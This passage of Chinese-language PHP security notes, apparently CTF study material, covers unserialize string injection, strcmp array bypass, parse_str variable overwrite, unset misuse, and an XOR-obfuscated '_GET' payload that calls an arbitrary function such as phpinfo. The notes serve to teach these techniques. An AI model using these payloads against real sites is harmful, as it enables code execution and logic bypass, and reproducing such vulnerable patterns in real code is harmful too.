 ```php
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$a = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}';
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:5:"qwert";}";i:2;s:4:"defg";}';
var_dump(unserialize($a));
echo "<br>";
var_dump(unserialize($b));
?>
#输出
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(4) "defg" }
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(5) "qwert" }
```

### strcmp

可用数组绕过

### parse_str变量覆盖

```php
parse_str() 函数用于把查询字符串解析到变量中，如果没有array 参数，则由该函数设置的变量将覆盖已存在的同名变量。 极度不建议 在没有 array参数的情况下使用此函数，并且在 PHP 7.2 中将废弃不设置参数的行为。此函数没有返回值
举例：
<?php
$name = 'admin';
$sex = 'boy';
@parse_str($_GET['a']);
echo $name;
echo "<br>";
echo $sex;
?>
传参a=name=hack1%26sex=hack2(此处%26为&的url编码，测试时不知为何原因不用%26sex会覆盖失败)
输出：
hack1
hack2
```

###  unset()

```php
unset(bar);用来销毁指定的变量，如果变量bar 包含在请求参数中，可能出现销毁一些变量而实现程序逻辑绕过。
```

### _GET

```php
<?php
    $a = urldecode("%fe%fe%fe%fe");
    $b = urldecode("%a1%b9%bb%aa");
    echo $a^$b;

<?php
    echo (is_nan^(6).(4)).(tan^(1).(5))
    
    
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
#%ff%ff%ff%ff^%a0%b8%ba%ab结果为_GET 同理：
${%80%80%80%80^%df%c7%c5%d4}{%80}();&%80=phpinfo


#结果为_GET
```
